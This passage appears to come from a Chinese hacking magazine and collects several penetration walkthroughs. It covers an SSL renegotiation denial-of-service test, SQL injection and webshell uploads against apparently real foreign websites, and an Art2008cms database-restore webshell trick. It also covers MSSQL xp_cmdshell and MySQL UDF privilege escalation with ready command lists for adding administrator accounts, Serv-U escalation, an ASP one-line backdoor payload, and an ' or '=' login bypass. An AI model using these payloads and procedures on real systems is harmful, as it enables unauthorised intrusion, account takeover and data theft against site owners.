SSLCACertificatePath "C:/Apache/conf/ssl.crt"
#SSLCACertificateFile "C:/Apache/conf/ssl.crt/ca-bundle.crt"
SSLCACertificateFile "C:/Apache/conf/ssl.crt/cacert.pem"
```

3. 在 `C:\Apache\conf\` 新建文件夹命名为 `ssl.crt`。若此时重启 Apache 报错，可查看 `C:\Apache\logs\error.log`，常见为：`SSLCertificateFile: file 'C:/Apache/conf/ssl.crt/server.crt' does not exist or is empty`。

接下来生成证书文件实现 HTTPS 访问。一般 Linux 系统集成 OpenSSL，可直接在 Linux 下制作证书。本文使用 BT4。

- SSL 所使用的证书可以是自建生成，也可以通过商业性 CA（如 Verisign、Thawte）签署。
- 证书概念：先有根证书，再由根证书签发服务器证书和客户端证书；SSL 认证通常需要根证书与服务器证书。
- 签发证书问题：不少 OpenSSL 资料只到生成根证书、私钥和 CSR。可参考 OpenSSL 自带 `CA.sh` 完成签证，而非 `mod_ssl` 中的 `sign.sh`。

因此，在此环境中至少需要三类证书：根证书、服务器证书、客户端证书。生成前先有私钥，再由私钥生成证书请求并由 CA 根证书签发。`openssl` 下有 `CA.sh` 文件，可用于签发三张证书并部署 SSL 服务器。

制作证书过程如下：

```bash
# 在 BT4 中将 /usr/ssl/misc/CA.sh 拷贝到工作目录
cp /usr/ssl/misc/CA.sh CA.sh
```

2. 运行 `CA.sh -newca`，会提示创建 CA 所需文件并输入信息，自动生成 `demoCA` 目录及相关证书/密钥文件（如 `./demoCA/private/cakey.pem`、`./demoCA/cacert.pem`）。

```text
root@bt:~# ./CA.sh -newca
Country Name (2 letter code) [AU]:CN
State or Province Name (full name) [Some-State]:beijing
Locality Name (eg, city) []:beijing
Organization Name (eg, company) [Internet Widgits Pty Ltd]:beijing
Organizational Unit Name (eg, section) []:beijing
Common Name (eg, YOUR name) []:beijing
Email Address []:beijing@126.com
```

这样就建立了一个 CA 服务器，得到根私钥 `cakey.pem` 和根证书 `cacert.pem`，可用于后续签发证书。

#### 1. 签署服务器证书

```bash
root@bt:~# openssl genrsa -des3 -out server.key 1024
root@bt:~# openssl req -new -key server.key -out server.csr
```

```text
Country Name (2 letter code) [AU]:CN
State or Province Name (full name) [Some-State]:beijing
Locality Name (eg, city) []:beijing
Organization Name (eg, company) [Internet Widgits Pty Ltd]:beijing
Organizational Unit Name (eg, section) []:beijing
Common Name (eg, YOUR name) []:beijing
Email Address []:beijing@126.com
Please enter the following 'extra' attributes
A challenge password []:
An optional company name []:

root@bt:~# mv server.csr newreq.pem
root@bt:~# ./CA.sh -sign
root@bt:~# mv newcert.pem server.crt


```

此时已有两张证书和三个私钥：`demoCA/cacert.pem`、当前目录 `server.crt`、`demoCA/private/cakey.pem` 以及对应 `server.key` 等文件。

将生成的证书文件（如 `cacert.pem`）复制到服务器目录；若 `server.key` 为加密状态，在 Windows 下 Apache 可能无法直接使用，需要先解密：`openssl rsa -in server.key -out server.key`。随后把 `server.crt`、`server.key`、`cacert.pem` 放入 `C:\Apache\conf\ssl.crt\` 并重启 Apache。
图 3：实现 HTTPS 访问（页面显示 *It works!*），说明可正常访问，服务器搭建完成。

攻击测试：进入工具 `thc-ssl-dos-1.4-win-bin` 目录，输入攻击命令（示例目标 IP：`192.168.100.124`），使用默认 443 端口进行测试。
图 4：攻击指令。随后开始持续请求测试，并观察服务器资源消耗情况（文中后续提到图 5、图 6）。

图5 攻击开始

图6 受攻击影响主机 CPU 使用暴增

CPU 使用持续在 80% 以上，而我们再对网站进行访问测试，如图7所示。

图7 攻击下网站已无法访问

我们看到无论是 HTTP 服务还是 HTTPS 服务都已经停止，不能正常访问。虽然不能完全真实重现，但是其效果已经可以通过本次模拟测试窥见一斑。

我们用 Wireshark 抓包看一下，如图8所示。

图8 攻击初期 Wireshark 抓包

客户端：192.168.100.115，服务器端：192.168.100.124。从抓包可见，当客户端连接到服务端正常握手后，不断进行再握手。客户端重复发起握手，进行循环攻击。每次握手成功时，服务器都会发送 2 个接近 1500 字节的数据包给客户端，而客户端只需要发送 2 个 100 字节左右的数据包。这样就造成了服务器端消耗资源严重的情况。如图9所示，是攻击测试后期服务器端已经无法正常连接 443 端口的数据连接情况。

图9 攻击后期 Wireshark 抓包

### 结语

拒绝服务攻击本身就是当前尚无法彻底防御的攻击，只有通过对其工作原理以及攻击产生效果的不断学习研究，才能相应衍生出防御此类攻击的方法策略。本文对 SSL DOS 攻击环境搭建以及攻击产生的效果和其攻击原理做了简单明了的阐述。当然本文没有涉及 Disabled Renegotiations 的情形，但是对于这类情形国外已经有人发布了相应的攻击工具；笔者经过测试效果相当显著，但对于该技术的探索研究，国内研究水平明显落后于国外，还需要多加努力。

前置知识：无

关键词：网站，安全，检测

## 对国外某站点的一次安全检测

图/文 simeon

通过漏洞扫描软件对目标站点进行扫描，获取漏洞信息，然后根据漏洞信息来进行渗透，是 Web 渗透的常见方式之一；使用安全漏洞扫描软件扫描耗时长，在渗透目标计算机中生成日志较多，而手工渗透和半手工渗透对目标站点则相对快捷，能够发现扫描工具未能扫描出的漏洞。在很多情况下，除了用工具进行扫描外，还可以利用 Google 等搜索引擎配合 SQL 注入工具，寻找 SQL 注入点，然后进行渗透测试，效果不错。下面就以一个实际案例来介绍如何使用该方法来对目标站点进行渗透。

图2 手工测试 SQL 注入页面

### 善用 Google 搜索

使用 Google 对目标站点进行定向搜索，如图1所示。输入“site:somesite.ph filetype=php”进行搜索，通过观察搜索记录，判断网站地址是否存在 SQL 注入点。

图1 使用 Google 进行搜索

### 获取脚本错误提示

在正常页面的参数后面添加一个单引号并访问，如图3所示，出现脚本错误提示。该脚本错误信息说明目标对象所使用的操作系统应该是 Linux，网站真实路径为“/var/www/vhosts/xxxxh/httpdocs/”，同时说明该页面存在 SQL 注入。

图3 获取脚本提示错误信息

### 手工进行注入点判断

从 Google 搜索结果中选择带有参数传递的地址，选择 http://www.xxxx.ph/ranking.php?Yr=2009，并尝试访问，看看能否正常访问。如图2所示，能够正常访问，然后才能进行后续操作。

### 使用工具进行 SQL 注入测试

将存在 SQL 注入的地址复制到 Havij 中进行 SQL 注入测试，在 Target 中输入“http://www.xxxx.ph/ranking.php?Yr=2009”，其他保持默认设置，单击“Analyze”开始进行 SQL 注入测试，很快就获取有关该注入点的相关信息，如图4所示。

### 获取管理员密码

确认存在 SQL 注入后，其后续步骤就比较简单了：先猜测表名，然后选择需要继续查看的表来获取列字段，最后获取数据的详细信息，如图5所示，获取了管理员的密码。

### 后台登录测试

输入后台地址进行访问测试，如果能够正常访问，说明该后台地址正确。输入获取的管理员用户名和密码进行登录测试，如图7所示，用户名和密码都正确，成功进入后台。

### 扫描后台登录地址

在 Havij 中单击“Find Admin”，在“Path to Search”中输入网站地址，然后单击“Find”即开始扫描可能存在的后台地址。如图6所示，很快就扫描出默认的后台登录地址 http://www.xxxx.ph/admin。

### 寻找上传地址

在后台管理中发现存在内容编辑模块，如图8所示。打开后有上传模块，要求上传会员照片。在 Photos 模块中也存在上传功能，如图9所示。

图9 获取 Photos 上传页面模块

### 文件上传测试

在 Photos 模块中选择新增一条记录，其他字段随意填写，在“Thumbs”中选择一个 PHP 木马进行上传测试，上传非常成功，如图10所示。上传完毕后可以看到上传的 Webshell 的详细名称。

图10 上传 Webshell

### 获取 Webshell

选中上传的文件，查看文件属性，获取 Webshell 的详细地址。将详细地址复制到浏览器中并访问该地址，如图11所示，获得了 Webshell。

图11 获取 Webshell

### 获取数据库密码

通过 Webshell 的文件管理，随机查看一个网页文件，如图12所示。该文件中出现的“admin/db-con.php”即为数据库连接文件。找到该文件并打开，如图13所示，获取该目标站点数据库的用户名和密码。

图12 寻找数据库连接文件

图13 获取数据库用户名和密码

### 小结

本案例介绍了通过 Google 搜索来定位网页文件，通过访问和测试带参数的网页文件来确认 SQL 注入点，通过 Havij SQL 注入工具快速获取表以及管理员等数据，通过登录后台寻找上传模块，找到上传模块后测试直接上传 Webshell 等方法，成功获得 Webshell。

前置知识：无

关键词：cms，系统，Webshell

## 利用 Art2008cms 系统管理员获取 Webshell

图/文 Simeon

某日，一朋友丢过来一个网站，让我看看有无办法获取 Webshell。通过分析网站结构，发现该网站采用 Art2008cms。Art2008cms 是一款完全开源的程序，功能完善，覆盖面广、扩展性强、负载能力好、模板调用非常灵活、管理方便，因此不仅适合建设一般企业、政府、学校、个人等小型网站，同时也适合建设地方门户、行业门户等大中型网站。它有两个版本，一个是免费版本，另一个需要购买，其下载地址为 http://www.art2008cms.com。通过在本地架设网站，发现以下几个可以利用的地方：

- 上传文件列目录漏洞，其漏洞文件为 `Admin_UploadFile.asp`，通过修改 dir 参数的传入即可浏览上级目录或者当前磁盘的文件列表。例如 `Admin_UploadFile.asp?dir=../../..`。
- 系统默认会保留“Art2008cms”用户，密码为“111111”，默认登录地址为 `http://localhost/user/login.asp`。
- user 登录后目录浏览漏洞：`http://localhost/User/selectupfile.asp?CurPath=../../../..`。
- 修改上传选项，允许上传 mdb 类型，上传 mdb 木马，然后恢复数据库即可获得 Webshell。

### 修改上传选项

在 Art2008cms 系统中默认过滤了 asp、aspx 等危险后缀，即使修改了允许管理员上传的文件类型，在实际上传过程中也是被禁止的。因此在“允许管理员上传的文件类型”中增加一个“|mdb”选项，如图1所示，允许 mdb 数据库文件上传。

图1 允许上传 mdb 数据库文件

### 上传数据库文件

单击“基本设置”→“添加文章”，在文章添加页面中单击“插入 FLV 视频”，选择一个已经更名为 mdb 的 Webshell 上传，如图2所示。选择文件后单击开始上传，上传完毕后会自动显示文件上传后的详细地址“/uploadfile/Media/201106/2011061515303758472.mdb”，记下该地址，留作后用。

### 恢复数据库备份

在 Art2008cms 中单击“基本设置”→“数据恢复”进入恢复数据库页面，如图3所示。要恢复的数据库源目录保持默认，在要恢复的数据库文件名中输入刚才上传的详细地址，注意：需要去掉“/”，即填写的文件名为“uploadfile/Media/201106/2011061515303758472.mdb”，单击立即恢复数据库。如果没有意外，一般都会恢复成功，恢复成功后会给出提示，如图4所示。

### 获取 Webshell 地址

- 后台和前台无法正常访问
- Webshell 显示无法访问
- 获取了 Webshell 也无法操作

数据库恢复成功后，由于用来恢复的数据库是 Webshell，非真实数据库文件，因此当数据库恢复成功后，后台管理会报错，导致后台无法管理，网站也无法正常访问，如图5所示。

此时输入 Webshell 地址，会显示“Directory Listing Denied”，如图6所示，原因是该地址文件中出现了“#”，将“#”换成“%23”即可正常访问 Webshell。

将“#”换成“%23”即可正常访问 Webshell，如图7所示。但输入正确的 Webshell 密码后，登录却重新指向“#http://localhost/data/artdb.asp”，显示“该页无法显示”错误信息，如图8所示。

### （4）本地修改后门的提交地址

在本地将 Webshell 重命名为 1.html，并使用 UltraEdit 打开该文件进行编辑，将 action 地址修改为“http://localhost/data/%23artdb.asp”，如图9所示。也即在本地提交密码，在服务器端进行验证。

### （5）艰难地获得 Webshell

打开 1.html 文件，输入密码进行 Webshell 密码验证，虽然验证通过后会再次出现“该页无法显示”的错误提示信息，但无关紧要。再次输入“http://localhost/data/%23artdb.asp”地址进行访问，出现熟悉的 Webshell 操作界面，如图10所示。

### 通过挂马获得真正可操作的 Webshell

虽然通过本地构建 HTML 登录服务器，通过了 Webshell 的登录验证，但在实际操作过程中却发现无法用该 Webshell 来浏览文件等操作。无奈之下抱着试一试的态度，对该网站进行挂马，如图11所示，挂马代码为一句话后门。

需要注意的是，在挂马时需要指定文件路径和文件类型。插入一句话木马仅在 .asp 文件中才能生效，因此文件类型仅选择 asp，文件目录选择根目录。单击“开始执行”开始插入一句话后门到 asp 文件中，挂马成功后会给出详细的文件挂马信息，如图12所示。凡是文件前面有“√”的，表示该文件成功插入一句话后门。

### 使用 chopper 进行一句话操作

使用中国菜刀进行一句话木马管理，添加一句话木马的详细地址和密码，如图13所示。保存后，双击该地址即可获得 Webshell，如图14所示。通过中国菜刀可以方便地对网站文件、数据库等进行操作。

图14 获取一句话后门

### 思考与总结

- 通过挂马，即插入一句话木马来获得 Webshell。
- 后面通过测试，可以直接上传一个一句话的 mdb 数据库，恢复数据备份后获得的地址“http://localhost/data/%23artdb.asp”，通过菜刀即可直接得到 Webshell。
- 如果 CMS 系统中存在上传文件管理，则修改地址参数来尝试目录漏洞。
- 在 Webshell 地址包含“#”且需要密码验证时，可以将 shell 保存为 htm 文件，并修改 action 地址来提交密码，从而绕过登录验证。

前置知识：无

关键词：SQL Server，提权，数据库

## Microsoft SQL Server 2005 提权

图/文 simeon

Microsoft SQL Server 2005 以及 Microsoft SQL Server 2008 都将“xp_cmdshell”等危险存储过程删除了，但这并不影响提权。只要获取了 sa 口令，重新添加存储过程，即可跟 MSSQL 2000 Server 一样提权。Microsoft SQL Server 2005 提权思路很简单：需要获取数据库用户名和密码，然后通过恢复存储过程执行命令即可。下面是详细的提权过程。

通过查看首页代码，一般都能准确找到数据库连接文件。

### 查看数据库连接文件

通过 Webshell 查看网站源代码，如图1所示。通过分析首页 default.asp 文件，获知数据库连接文件为 openconnection.asp。

技巧：数据库连接文件一般名称为 conn.asp、openconnection.asp、connection.asp 以及其他名称。这些文件一般位于网站根目录或者 includes 等文件夹。通过查看首页代码一般都能准确找到数据库连接文件。

图1 分析首页文件

### 获取数据库用户和密码

找到数据库连接文件 openconnection.asp 后，将其下载到本地并打开，如图2所示，知道数据库用户为“sa”，密码为“tp******234”，将其复制出来留待后面用。

图2 获取数据库用户和密码

### 数据库连接设置

在连接 Microsoft SQL Server 2005 前需要对数据库进行设置，需要知道 sa 用户密码和数据库，默认采用 master 数据库。在“ConnString”中修改相应设置，主要在数据库类型中选择相对应的数据库类型。在 Webshell 中点击“Database”，如图3所示，设置完毕后单击“Go”按钮进行数据库连接测试。

图3 设置 MSSQL 连接

### 查看连接信息

如果数据库用户名、密码以及数据库名称均设置正确，连接成功后会显示数据库基本信息，如图4所示，会显示：

`MSSQLVersion: Microsoft SQL Server 2005 - 9.00.4035.00 (Intel X86) Nov 24 2008 13:01:59 Copyright (c) 1988-2005 Microsoft Corporation Standard Edition on Windows NT 6.0 (Build 6001: Service Pack 1)`

以及“SrvRoleMember: sa”。

表明数据库版本为“Microsoft SQL Server 2005 - 9.00.4035.00”，数据库用户角色是“sa”。

图4 获取数据库基本信息

### 添加“xp_cmdshell”存储过程

可以直接在“Run SQL”中输入：

`Exec sp_configure 'show advanced options',1;RECONFIGURE;Exec sp_configure 'xp_cmdshell',1;RECONFIGURE;`

也可以通过 Webshell 进行。如图5所示，在“SQLExec”执行中选择第三个命令“Add xp_cmdshell(SQL2005)”即可。

图5 添加“xp_cmdshell”存储过程

### 添加用户

在 SQLExec 中选择“XP_cmdshell exec”，Webshell 会自动给出脚本：

`Exec master.dbo.xp_cmdshell 'net user'`

修改为添加用户命令，即：

`Exec master.dbo.xp_cmdshell 'net user temp Wantian365.com!* /add'`

将添加用户 temp，密码为“Wantian365.com!*”，如图6所示，单击“Query”执行添加用户命令。

图6 添加用户

### 将普通用户添加到管理员组

### 远程终端登录

在 SQLExec 中继续选择“XP_cmdshell exec”，然后将 temp 用户添加到管理员组，即命令“Exec master.dbo.xp_cmdshell 'net localgroup administrators temp /add'”，添加成功后如图 7 所示。

打开远程终端连接登录，输入 IP 地址以及刚才添加的用户和密码，如图 10 所示，成功进入服务器，其操作系统为 Windows 2008 Server。
### 通过“XP_cmdshell exec”查看系统用户

在 SQLExec 中选择“XP_cmdshell exec”，Webshell 会自动给出脚本“Exec master.dbo.xp_cmdshell 'net user'”，如图 8 所示。单击“Query”查询系统的用户，如图 9 所示，temp 用户已经添加到系统中。
### 小结

通过 sa 在 Microsoft SQL Server 2005 提权是相对比较简单的，这也是将 Webshell 权限提权到系统级别的一种思路。还有通过数据库备份，将批处理命令备份到启动文件夹下，这样系统重启后就会自动执行批处理命令，达到提权的效果。

前置知识：无

关键词：MySQL，提权，数据库

## MySQL 数据库提权

图/文 Simeon
MySQL 数据库是目前用得最多的流行数据库之一，其流行架构为 php+MySQL+apache，支持 Linux 和 Windows 操作系统。在 Web 渗透过程中，通过 Webshell 有可能获得 MySQL 的安装目录，通过下载 MySQL 数据库中的 user.myd 表，能够方便地破解 root 用户的密码。root 用户的密码还可能从网页脚本文件中获得，数据库连接直接使用 root 用户。在获得 root 密码后，通过导出 UDF.DLL 函数，在条件合适的情况下，可以获得服务器权限，以下面的一个实例来介绍如何通过 MySQL 的 root 用户来提权。

### 设置 MySQL 提权脚本文件

将 MySQL 提权脚本文件上传到服务器上，运行后，需要对 IP 地址、UID、password、db 进行配置，如图 1 所示。IP 地址一般可以设置为 localhost、127.0.0.1 以及真实 IP 地址，uid 默认为 root，其他具有 root 用户权限的用户名也可以，pwd 为具有 root 权限用户的密码，db 默认选择 MySQL，单击提交查询内容进行连接测试。
图 1  设置 MySQL 提权脚本文件

### 进行连接测试

连接成功后，会给出相应的提示信息，如图 2 所示，给出用户、数据库、数据目录（datadir）、基本目录（basedir）、版本、插件路径、MySQL 函数等信息。
图 2  连接测试

### 创建“shell”函数

单击“Dump UDF”将 UDF.DLL 文件导出到默认的插件目录下，然后再运行“Create Function”，将创建“shell”函数。如图 3 所示，如果前面已经创建过 shell 函数，则会提示系统中已经存在“shell”函数。
图 3  创建“shell”函数

### 查看用户

在查询窗口中输入“select shell('cmd','net user')”查看系统所有的用户，如图 4 所示，可以正常查看系统的所有用户信息。
图 4 查看用户

### 创建具有管理员权限的用户

分别在查询中输入脚本“select shell('cmd','net user temp temp123456')”、“select shell('cmd','net localgroup administrators temp /add')”并执行该查询命令；如果执行成功，则表示在系统中添加“temp”用户，密码为“temp123456”，同时将该用户添加到管理员组中，使其具备管理员权限，执行成功后如图 5 和图 6 所示。
图 5 添加 temp 用户

### 提权成功

在 SQL 查询中输入“select shell('cmd','net localgroup administrators')”命令，查看刚才添加的用户是否真的添加成功，如图 7 所示，查询结果表明已经将 temp 用户添加到管理员组中。
图 6 将用户 temp 添加到管理员组
图 7 查看管理员用户

目前对于一些网站来说，一般都会提供远程终端服务，只要用户添加成功，则可以直接登录该服务器，如图 8 所示，输入用户名和密码，成功进入该服务器，至此通过 MySQL 的 root 用户成功提权。
图 8 成功进入服务器

### 小结

提升到服务器权限，当然还有其他的一些方法通过 MySQL 提权，下面对经常用到的一些有关 MySQL 的提权命令和方法进行总结。

### （1）UDF 提权常用的一些命令

```sql
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user antian365 123!@#abcABC /add');
select cmdshell('net localgroup administrators antian365 /add');
select cmdshell('net localgroup administrators');
select cmdshell('ipconfig /all');
select cmdshell('net user');
select cmdshell('regedit /s d:\wwwroot\3389.reg');
drop function cmdshell;
select cmdshell('netstat -an');
```

### （2）VBS 启动项提权

先通过 Webshell 连接数据库，通过建立表 a，将 VBS 脚本写入表里，然后导入启动项。该脚本仅仅对中文版有效，如果使用其他语言版本操作系统，仅需对启动目录路径做对应修改。在 VBS 脚本后面有个“0”，表示不弹出 CMD 窗口，以安静模式运行。该方法是在通过 UDF 提权失败的情况下，将 VBS 插入到启动中，待系统重启后自动添加一个用户。

```sql
create table a (cmd text);
insert into a values ("set wshshell=createobject(\"wscript.shell\")");
insert into a values ("a=wshshell.run (\"cmd.exe /c net user antian 123!@#$% /add\",0)");
insert into a values ("b=wshshell.run (\"cmd.exe /c net localgroup administrators antian /add\",0)");
select * from a into outfile "C:\Documents and Settings\All Users\「开始」菜单\程序\启动\a.vbs";
```

### （3）Linux 下的 MySQL 提权

```bash
mysql -h localhost -uroot -p
system useradd hacker
system passwd hacker
system tail -f /etc/passwd
system tail -f /etc/shadow


```

前置知识：无

关键词：Serv-U，提权，FTP

## Serv-U 提权
图/文 Simeon

Serv-U 提权是 Windows 系列服务器提权最常用的方法之一，目前 Serv-U 最新版本为 9.x。自 8.0 以后，Serv-U 提权方式发生了一些变化。只要系统安装了 Serv-U，通过 Webshell 可以直接提权。

### 利用 Webshell 查看系统管理员用户组

在 asp.net 的 Webshell 中，单击“Cmdshell”，在 CmdPath 中将 cmd.exe 修改为 net 或者 net.exe，然后在“Argument”中输入“net localgroup administrators”，最后单击“Submit”查看管理员用户组，如图 1 所示，一共有 4 个管理员用户。

“UserName”“Password”“Port”采取默认设置，一般情况下不用变更；如果发现这些选项做了变更，则应调整这三个选项的值对应一致。在“CmdShell”中输入“cmd.exe /c net user king king 123456!@# /add”，执行添加用户命令，在系统中添加一个“king”用户，用户密码为“123456!@#”。技巧：在添加用户时，尽量将密码设置复杂一些，避免因密码策略导致命令执行失败。提示框仅代表命令执行成功，不一定添加用户成功。

### 执行 SU Exp
图 1 查看管理员用户组

### 检查 Serv-U 提权情况

回到“CmdShell”中，再次执行“net localgroup administrators”，如图 5 所示，king 用户已经成功添加到管理员组中。
图 5 检查程序执行情况
图 2 添加用户 king

### 远程终端登录测试

在 Asp.net 的 Webshell 中单击“SysInfo”，如图 6 所示，可以方便地获取远程终端的端口以及其他一些系统相关信息。在本例中获知远程终端端口由默认的“3389”更改为“53389”。
图 3 执行命令提示
图 6 查看端口信息
图 4 添加用户到管理员组

打开远程终端登录窗口，在连接地址中输入“xx.xx.xx.xx:53389”如图 7 所示，输入刚才添加的用户名和密码，成功登录远程终端，说明 Serv-U 提权成功。

### 小结

- （1）Serv-U 默认安装在 C 盘，但也有可能安装在其他路径，因此在提权时需要通过 Webshell 查看 Serv-U 相关安装位置的真实路径，特别是通过 asp 的 Webshell 提权，必须进入到 Serv-U 的真实路径提权才会成功。
- （2）Serv-U 7.0 以后版本提权相对较难，目前网上也有利用程序，在提权时需要设置才能提权成功。
- （3）通过 Webshell 来对 Serv-U 提权是提权的一种方法。对于 Serv-U 来说，如果通过 Webshell 可以查看 Serv-U 的配置文件，那么还可以通过破解 Serv-U 的用户密码来提权。
图 7  Serv-U 提权成功

前置知识：无  
关键词：Access，数据库，Webshell

## Access 注入获取 Webshell
图/文 Simeon

对于 Access 数据库+ASP 网站存在的 SQL 注入点的一般处理思路主要有下面五个途径。

- （1）查看是否有直接可以上传 Webshell 的地方。如果存在则可以直接上传 Webshell 来获得 Webshell 控制权限。
- （2）存在上传地址，但无法直接上传 Webshell，可以尝试通过 IIS 解析漏洞等方法来绕过对文件后缀名的验证。
- （3）备份数据库。在存在输入的页面加入一句话木马，然后将数据库备份为 asa 或者 asp 的文件。
- （4）本地构建上传页面，通过抓包等方法本地提交到服务器。
- （5）通过查询直接将一句话写入到一个文件中，方法即是本文用到的方法。

下面就一个具体的目标如何实施渗透进行介绍。

### 扫描漏洞

本次渗透测试换了一个工具，这个工具是国外的，提供免费版本供安全爱好者使用。软件名字叫 WebCruiser，软件官方下载地址：http://sec4app.com/。该软件不需要安装，不过需要 .NET Framework 2.0 以上环境支持。运行后如图 1 所示，在 URL 中输入本次需要扫描的地址“http://www.xxx.org”，然后在菜单栏中单击“Scanner”和“Scan Current Site”对目标站点进行扫描。WebCruiser 扫描效果还是不错的，虽然也有误报，但对 Java 扫描效果非常好。本次扫描结果表明目标网站有两个漏洞，一个是 SQL 注入漏洞，另外一个是跨站漏洞。
图 1  扫描漏洞

### SQL 注入测试

在进行 SQL 注入测试前，需要更多地收集目标所使用系统的信息。通过探测和查看网页源代码，获知该系统使用 NBArticle，通过网上下载了 NBArticle 的两个版本，对其数据库进行了分析和研究。该 CMS 系统管理员表名为 `NB_Master`，将该表名和表字段添加到 WebCruiser 的系统设置中。

在漏洞扫描中选中存在 SQL 注入点的记录，然后进行 SQL 注入测试。SQL 注入测试跟其他步骤相同，先猜测数据库，再猜测表，再猜测表列名，最后猜测数据。如图 2 所示，直接获取了数据库中管理员的密码。
图 2 获取数据

技巧如下。

- 由于已经知道该系统采用 Access，因此在 SQL 注入测试时，Databases 直接选择 Access。
- 在扫描出漏洞后，可以先在浏览器中进行 SQL 注入测试，判断数据库类型。虽然 WebCruiser 可以自动扫描出数据库类型，但效果不是特别好，软件有时候会长时间没有反应。

### 进入后台

获取的密码值为 16 位的 MD5 加密值，将该值放入 cmd5.com 和 xmd5.com 进行破解，密码设置不是很复杂，免费就能查到。NBArticle 的后台地址为 `http://www.xxx.org/manger/index.html`，打开后台地址后输入管理员账号和密码，成功进入后台，如图 3 所示。虽然成功进入后台，但该管理界面中未提供上传功能，目标网站对代码进行过滤修改，有些功能都不能使用。

### 获取 Webshell

在后台中虽然有数据库备份，但无法获取数据库的真实地址，因此无法进行备份，也就无法通过一句话木马进行数据库备份。但在高级管理中提供了 SQL 语句直接执行功能，如果知道网站的真实路径，那么可以通过执行 SQL 语句直接生成一句话密码。通过分析发现，后台首页提供了服务器信息，如图 4 所示，直接获取了网站后台的真实地址。
图 3 进入后台
图 4 获取网站后台的真实路径

### 写入 shell 到网站根目录

如图 5 所示，在 SQL 语句中输入 `SELECT '<%execute request("a")%>' into [NB_master] in 'd:\wwwroot\x.asp;...excel 8.0;' from 'NB_Master'`，然后执行即可获得一句话后门。注意 `NB_Master` 是 CMS 系统真实存在的表，否则无法执行成功。使用中国菜刀进行一句话木马测试，如图 6 所示，成功获得该网站的 Webshell 权限。

### 上传大马进行控制

在中国菜刀中直接上传一个 asp.net 的 Webshell，运行后如图 7 所示，通过该 Webshell 来查看数据库以及系统配置等信息。
图 5 执行 SQL 语句获取 Webshell
图 6 获取 Webshell
图 7 进一步收集信息

由于该网站的权限配置很严格，通过多种提权工具均不能获得系统管理员权限，只能放弃。自此对该目标的渗透结束。

### 思索与体会

- 就本案例来说，Access 网站的防护可以通过自定义加密算法，即使采用 MD5 加密，也要采用 MD5 变异，这样即使通过 SQL 注入点获得了管理员的密码，也会因为密码无法破解而放弃。
- 在用户名和密码强度上下功夫，在用户密码上设置 10 位以上高强度密码，让 cmd5.com 等网站都无法破解。
- 禁止 SQL 命令执行功能，该功能的危害非常大，如果必须要开启该功能，也可以使用后立即关闭，或者采取固定 IP 维护系统。
- 网站基本信息屏蔽，在 NB 文章系统中都会提供一个系统基本情况信息显示，该功能其实意义不大，可以禁用显示网站的真实路径，这样由于没有真实物理路径也就无法生成 shell。
- Access 数据库已经要求取消防下载功能，将数据库文件修改为一个特别复杂的名称。
- 通过 WebCruiser 软件进行 SQL 注入等漏洞扫描，可以发现一个高难度的 SQL 注入点。通过分析 CMS 系统的数据库表，将用户表名、管理员表等列名全部加入到 WebCruiser 表和列名中，可以比较方便地获得表的内容。通过破解管理员密码直接进入后台，然后寻找获取 Webshell 的方法，最终获取 Webshell。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：密码，Webshell，SQL

## 轻松绕过蜘蛛采国外站点 Webshell

图/文 Simeon

偶然发现一个站点，想检测一个工具的使用，于是就有了本文。通过 WebCruiserEnt 来扫描注入点，找到注入点后通过 Havij 和 WebCruiserEnt 等工具进行 SQL 注入点探测，无奈速度实在太慢，因此不得不……想其他方法。对于国外站点，通过密码绕过验证成功率还蛮高，下面将具体的渗透过程写出来与大家一起分享。

### 1. 获取 SQL 注入点

运行 WebCruiserEnt，在 URL 中输入欲检测的网站地址，然后单击“Scanner”，选择“Scan Current Site”即可，如图 1 所示；很快就检测出来 N 个漏洞。在这些漏洞中，URL 和 POST SQL 注入是容易获取 Webshell 的。WebCruiserEnt 对于 SQL 注入等脚本漏洞的检测功能非常强大，虽然检测出某些 SQL 注入点无法进行注入。
图 1  使用 WebCruiserEnt 扫描网站漏洞

### 2. 进行 SQL 注入基本操作

选中存在 SQL 注入的地址，右键单击，选择 SQL 注入 exploit，在环境探测中选择“Get Environment Information”，获取数据库版本信息、服务器信息、操作系统信息、用户信息、数据库信息以及有关密码的一些相关信息，如图 2 所示。
图 2  获取被渗透对象的环境信息

### 3. 数据库数据猜测

获取环境信息后，再单击“Database”，进入数据库数据猜测界面，如图 3 所示。单击“DataBase”程序即可开始数据库信息的探测，在获取数据库名称后，依次进行数据库表、表列名猜测，最后选择“Data”猜测，来获取数据信息。这些操作跟 Domain3.5 等 SQL 注入工具操作类似，在此就不赘述了。
图 3  数据库数据猜测

### 4. 使用 Havij 进行 SQL 注入猜测

使用 WebCruiserEnt 进行 SQL 注入猜测速度实在太慢，改用 Havij 进行 SQL 注入猜测，如图 4 所示。将目标地址输入“Target”中，然后单击“Analyze”进行分析。
图 4  使用 Havij 进行 SQL 注入猜测

### 5. 扫描网站管理员登录入口

在进行 SQL 注入猜测的同时，还可以扫描管理员登录入口。在“Path to search”中输入本次渗透到的目标地址“http://xxxxxxxxx.com”，单击“Start”开始扫描，如图 5 所示。Havij 会给出扫描到的目录和页面信息，在 Response 为“200 OK”的结果表示可以正常访问，也即存在该页面或者目录。
图 5  扫描网站管理员登录入口
图 7  尝试密码绕过验证登录

#### 说明

- （1）在 Havij 中还可以丰富管理入口扫描文件 admins.txt；该文件存在于 Havij 的安装目录，默认安装目录路径为“C:\Program Files\Havij”。打开 admins.txt，如图 6 所示，可以直接添加目录、详细文件名称和 %EXT%，保存后再次扫描时即可使用。
- （2）可以手动丰富表名（tables.txt）和表列名（columns.txt）的内容，在知道某些 CMS 系统的数据库结构后，可以将该数据库的表名和列名进行手动丰富，否则即使存在 SQL 注入点也可能无法获取表或者表列名。这点和 WWWSCAN 扫描网站目录和文件比较类似，字典收集得越全，扫描效果就越详细。
图 6  路径和文件扫描字典
图 8  成功登录后台

### 6. 尝试密码绕过验证登录

单击“Find Admin”按钮，进入管理入口扫描模块，在扫描结果中双击疑似管理入口登录地址“http://www.************.com/administrator/login.php”进行登录。如图 7 所示，成功打开该页面，在“User ID”中输入“' or '='”，密码随意输入，单击“Log in”进行登录尝试。非常幸运，该网站对用户名未做严格的限制，顺利登录进入后台管理页面，如图 8 所示。

### 7. 获取 Webshell

